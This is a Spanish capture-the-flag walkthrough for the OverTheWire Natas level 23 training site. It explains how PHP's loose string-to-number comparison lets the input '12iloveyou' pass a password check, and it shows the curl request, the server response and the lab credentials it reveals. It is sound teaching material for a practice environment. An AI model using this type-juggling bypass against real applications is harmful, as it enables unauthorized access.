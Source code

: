 # Natas23

#### URL: http://natas23.natas.labs.overthewire.org
#### Credenciales: natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs 

``` php
 if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
```

El parametro passwd debe contener una cadena que contenga a la subcadena "iloveyou" y la extension de la cadena debe ser mayor a 10. Ojo con esto, `no se esta usando strlen para obtener la longitud de la cadena, se esta pasando el string mismo como argumento`.

En estos casos el operador de desigualdad se comporta de la siguiente manera:
- El string devolvera 0 si su primer caracter no es un numero o el numero por el que comienza(ej: 91test > 5 se evalua como 91 > 5)

``` bash
curl -u natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs http://natas23.natas.labs.overthewire.org/?passwd=12iloveyou 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas23", "pass": "dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs" };</script></head>
<body>
<h1>natas23</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<br>The credentials for the next level are:<br><pre>Username: natas24 Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`natas24:MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd`

